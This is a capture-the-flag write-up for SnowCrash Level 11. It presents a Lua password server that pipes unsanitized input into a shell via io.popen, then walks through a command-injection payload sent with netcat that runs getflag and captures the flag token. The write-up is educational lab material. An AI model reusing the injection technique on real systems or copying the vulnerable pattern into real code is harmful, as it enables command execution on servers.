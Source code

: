 # Level 11

Level 11 we the following lua script 

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

it creates a simple server that listens on IP address "127.0.0.1" and port 5151 and prompts connected clients for a password then hashes the provided password and checks if the hash matches a specific value. If the hash matches, it sends a success message; otherwise, it sends a failure message.

Upon analysis of the code we noticed that the hash function doesn't sanitize the password input, and directly inserts it in the command `echo "..pass.." | sha1sum", "r"` which is executed by the `io.popen()` function. This allows us to inject commands in the password input and execute them on the server.

```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
```

so all we need to do is close the argument string with a double quote and inject our command, let's try to get the token file:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: \"; getflag > /tmp/hh
Erf nope..
level11@SnowCrash:~$ cat /tmp/hh
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$
```

